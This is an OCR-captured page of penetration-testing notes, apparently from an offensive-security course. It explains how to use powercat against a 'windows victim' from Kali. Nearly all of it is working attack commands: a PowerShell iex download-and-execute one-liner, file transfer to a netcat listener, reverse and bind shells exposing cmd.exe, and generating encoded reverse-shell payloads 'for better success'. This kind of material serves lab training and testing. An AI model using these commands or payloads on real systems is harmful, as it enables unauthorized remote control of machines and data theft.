             1. download in kali with apt install powercat to: /usr/share/windows-resources/powercat
            2. use PS file transfer method^^^ to send it to windows victim
            3. on windows machine:
                . .\powercat.ps1
                or, if connected to internet:    iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
                run it: powercat -h
            File transfer:
                linux listener:  sudo nc -lnvp 443 > receiving_powercat.ps1
                windows sender:  powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
            Reverse shell:
                powercat -c 10.11.0.4 -p 443 -e cmd.exe
            Bind shell:
                powercat -l -p 443 -e cmd.exe
                nc 10.11.0.22 443
            Stand-alone payloads, ex. reverse shell:  powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1
                encode for better success:  powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
                    run with: powershell.exe -E [encoded string contents of ps1 file]

